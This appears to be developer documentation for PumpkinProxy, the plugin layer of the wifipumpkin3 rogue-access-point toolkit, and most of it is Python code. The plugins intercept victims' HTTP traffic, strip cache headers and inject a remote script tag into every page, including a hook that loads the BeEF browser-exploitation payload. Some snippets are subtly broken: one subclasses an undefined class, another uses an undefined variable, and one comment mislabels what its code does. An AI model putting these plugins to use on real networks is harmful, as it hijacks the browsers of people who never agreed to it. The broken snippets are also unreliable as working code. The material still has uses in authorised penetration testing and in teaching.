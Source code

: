 ```yaml
---
title: 'Pumpkinproxy'
description: 'PumpkinProxy is a transparent proxies fork about sslstrp.'
---
```


PumpkinProxy is a transparent proxies that you can use to intercept and manipulate HTTP traffic modifying requests and responses, that allow to inject javascripts into the targets visited. 


### Overview 
First of all write the import plugin tamplate 
``` python
from wifipumpkin3.plugins.extension.base import BasePumpkin
```
the basic plugin example:
``` python
from wifipumpkin3.plugins.extension.base import BasePumpkin


class Example(PluginTemplate):
    meta = {
        "_name": "example plugin ",
        "_version": "1.0",
        "_description": "example plugin structure",
        "_author": "by example",
    }

    # get name of plugin static
    @staticmethod
    def getName():
        return Example.meta["_name"]

    def __init__(self):
        for key,value in self.meta.items():
            self.__dict__[key] = value
        self.ConfigParser = False # no requeire args

    def handleHeader(self, request, key, value):
        pass

    def handleResponse(self, request, data):
        return data
```

### Modify Packets 
Simple fuctions that just adds a header to every request.. 
 ``` python
    def handleResponse(self, request, data):
      data = str(html + "<h1> injected code html </h1>")
      # request.uri url of website 
      print("[{}] [Request]: {} | injected ".format(self._name, request.uri))
      return data
```

example how to remove header from request and set no-cached parameter
 ``` python
    def handleHeader(self, request, key, value):
        if key.decode().lower() == "cache-control":
            value = "no-cache".encode()

        if key.decode().lower() == "if-none-match":
            value = "".encode()
        if key.decode().lower() == "etag":
            value = "".encode()
```

another example how to rewrite packet in real time 
 ``` python
from wifipumpkin3.plugins.extension.base import BasePumpkin
from os import path
from bs4 import BeautifulSoup

class js_inject(BasePumpkin):
    meta = {
        "_name": "js_inject",
        "_version": "1.1",
        "_description": "url injection insert and use our own JavaScript code in a page.",
        "_author": "by Maintainer",
    }

    @staticmethod
    def getName():
        return js_inject.meta["_name"]

    def __init__(self):
        for key, value in self.meta.items():
            self.__dict__[key] = value
        self.ConfigParser = True
        self.url = self._config.get("set_js_inject", "url")

    def handleResponse(self, request, data):

        html = BeautifulSoup(data, "html.parser")
        """
        # To Allow CORS
        if "Content-Security-Policy" in flow.response.headers:
            del flow.response.headers["Content-Security-Policy"]
        """
        if html.body:
            url = "{}".format(request.uri)
            metatag = html.new_tag("script")
            metatag.attrs["src"] = self.url
            metatag.attrs["type"] = "text/javascript"
            html.body.append(metatag)
            data = str(html)
            print("[{} js script Injected in [ {} ]".format(self._name, url))
        return data
```

### Logging 
all log will save data(pumpkin-prxoy.log) in your plugin.

### How to add argumments 
Now, if you want to add argumments in proxy.ini for show me on Pumpkin-Proxy->Settings.you need to add in directory "core/config/app/proxy.ini" the key (exampleplugin and set_exampleplugin).

* exampleplugin key is the option checkbox to change and enable or disable plugin
* set_exampleplugin this is key for search all argumments in Settings option.
![plugin_key](http://i.imgur.com/oSvErrZ.png)

### Example from Wp3 with Argummets 
``` python
from wifipumpkin3.plugins.extension.base import BasePumpkin
from os import path
from bs4 import BeautifulSoup


class beef(BasePumpkin):
    meta = {
        "_name": "beef",
        "_version": "1.1",
        "_description": "url injection insert and use our own JavaScript code in a page.",
        "_author": "by Maintainer",
    }

    @staticmethod
    def getName():
        return beef.meta["_name"]

    def __init__(self):
        for key, value in self.meta.items():
            self.__dict__[key] = value
        self.ConfigParser = True
        self.urlhook = self.config.get("set_beef", "hook")

    def handleResponse(self, request, data):

        html = BeautifulSoup(data, "html.parser")
        """
        # To Allow CORS
        if "Content-Security-Policy" in flow.response.headers:
            del flow.response.headers["Content-Security-Policy"]
        """
        if html.body:
            url = "{}".format(request.uri)
            metatag = html.new_tag("script")
            metatag.attrs["src"] = self.urlhook
            metatag.attrs["type"] = "text/javascript"
            html.body.append(metatag)
            data = str(html)
            print("[{} js script Injected in [ {} ]".format(self._name, url))
        return data

```

You can easily implement a module to inject data into pages creating a python file in directory "plugins/extension/" and run `make setup` that on next start the prompt, the plugin is there.